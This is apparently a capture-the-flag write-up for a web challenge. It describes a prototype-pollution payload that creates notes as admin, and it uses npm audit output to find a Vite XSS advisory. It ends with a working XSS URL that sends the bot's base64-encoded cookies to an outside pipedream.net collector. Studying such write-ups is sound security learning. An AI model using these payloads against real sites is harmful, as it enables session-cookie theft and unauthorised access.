

# Web/Amourned notes

For this challenge there is two parts . Figuring how to write a note as admin and then exploit an xss in vite (dependancy of the project) . Remember boys and gal always run npm audit

Below is the function on the server to create new user 

```js 
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;
```
This is classic proton pollution . It happen in js when user input "__ proto__"
See more here . Lucky i remember this because there is "blade-runner" challenge from mapleCTF 2023 that has same challenge

So if you input this payload you can effectively create a note as admin

```js
"__proto__":{ 
"uname":"admin", "isAdmin": true 
}
,"pass":"Doe","message":"Your note...asd"}
```
With a quick look to the source code , we can see the flag is set in cookie so we will need to dump it . The question is how ???
``` js 
 // Set Flag
await page.setCookie({
	name: "flag",
	httpOnly: false,
	value: CONFIG.APPFLAG,
	url: CONFIG.APPURL
})

// Visit URL from user
console.log(`bot visiting ${urlToVisit}`);
await page.goto(urlToVisit, {
	waitUntil: 'networkidle2'
});
await new Promise(resolve => setTimeout(resolve, 5000));
It does filter all the sensitive possible thing from html input at '/posts'
const escapeHtmlReplaceMap = {
    '&': ';',
    "'": ';',
    '`': ';',
    '"': ';',
    '<': ';',
    '>': ';',
    "!":";",
    "_":";",
    "-":";",
    "*":";",
    "[":";",
    "{":";",
    "}":";",
    "|":";",
    "/":";",
    '"':";",
    '(':";",
    ')':";",
  }
  
  /**
   * @param {string} string
   * @returns {string}
   */
  export function escapeHtml(string) {
    return string.replace(/[&'`"<>]/g, (match) => escapeHtmlReplaceMap[match])
  }
```

npm audit command output

```bash
└─$ npm audit 

vite  4.4.0 - 4.4.11
Severity: moderate
Vite XSS vulnerability in `server.transformIndexHtml` via URL payload - https://github.com/advisories/GHSA-92r3-m2mg-pj97        
fix available via `npm audit fix`
node_modules/vite
1 moderate severity vulnerability
```
So `npm audit`  was able to id one vulnerbility . After reading the CVE POC .The payload need to input to admin /report

```
http://localhost:3000/posts/<code>/?"></script><script>window.location.href=`https://eno02ecudm9nm.x.pipedream.net/?cookie=${btoa(document.cookie) }` </script>
```

